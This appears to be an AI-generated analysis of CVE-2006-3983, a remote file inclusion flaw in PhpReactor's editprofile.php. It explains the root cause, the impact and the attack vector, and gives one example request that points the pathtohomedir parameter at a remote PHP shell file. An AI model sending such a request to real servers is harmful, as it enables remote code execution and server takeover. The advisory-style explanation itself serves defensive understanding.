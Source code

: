 Based on the provided content, here's an analysis of CVE-2006-3983:

**Root Cause of Vulnerability:**
The vulnerability stems from a lack of proper input sanitization in the `editprofile.php` file of PhpReactor 1.2.7pl1. Specifically, the `pathtohomedir` parameter, which is used to include other PHP files, is not validated, allowing an attacker to inject an arbitrary URL.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The primary weakness is the ability to include remote files by manipulating the `pathtohomedir` parameter. This occurs due to the use of `include()` statements without proper input validation.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious PHP file hosted on a remote server (controlled by the attacker), the attacker can execute arbitrary code on the server running the vulnerable PhpReactor application. This can lead to:
  - Full control over the web server.
  - Data theft.
  - Website defacement.
  - Installation of backdoors.

**Attack Vectors:**
- **HTTP GET Request:** The vulnerability can be triggered by crafting a malicious HTTP GET request to `editprofile.php` that includes the `pathtohomedir` parameter with a URL pointing to a malicious PHP file.
  - Example: `http://[target]/[path]/editprofile.php?pathtohomedir=http://phpshell.txt?`

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs network access to the vulnerable web server to send the crafted HTTP request.
- **Malicious PHP File:** The attacker needs a publicly accessible PHP file that contains the malicious code to be executed on the target server.

**Additional Notes:**
- The exploit description includes the vulnerable code snippet from `editprofile.php`, which shows the vulnerable `include()` statements using the attacker controlled `$pathtohomedir` parameter.
- The provided content offers more detailed information about the vulnerable code and the attack vector than the official CVE description.